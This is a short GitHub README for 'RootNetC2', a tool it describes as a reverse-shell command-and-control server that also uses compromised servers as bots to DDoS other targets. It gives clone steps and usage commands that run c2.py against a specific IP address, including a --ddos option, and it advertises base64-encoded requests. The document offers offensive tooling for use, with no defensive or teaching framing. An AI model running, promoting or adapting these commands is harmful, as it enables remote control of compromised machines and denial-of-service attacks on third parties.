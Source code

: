 
# RootNetC2

RootNetC2 Is a reverse shell Command and control Server.
And using the Compromissed server as a bot to DDoS Servers.





## Deployment

To deploy this project run

```bash
  git clone https://github.com/kryptonx2/RootNetC2.git
  cd Downloads/or the directory you have the file
  python3 c2.py -h
```


## Usage/Examples

```
python3 c2.py --target 187.200.54.181 --port 80 --localhost 127.0.0.1 --lp 80

## To Send the Compromissed Server to DDoS use

python3 c2.py --target 187.200.54.181 --port 80 --localhost 127.0.0.1 --lp 80 --ddos <url>
```


## License

[MIT](https://choosealicense.com/licenses/mit/)


## Features

- Easy to Use
- Multi Plataform [linux, MacOS, Windows]
- Base64 Encrypted Request's



## Authors

- [@rootkitcybersec](https://github.com/kryptonx2)

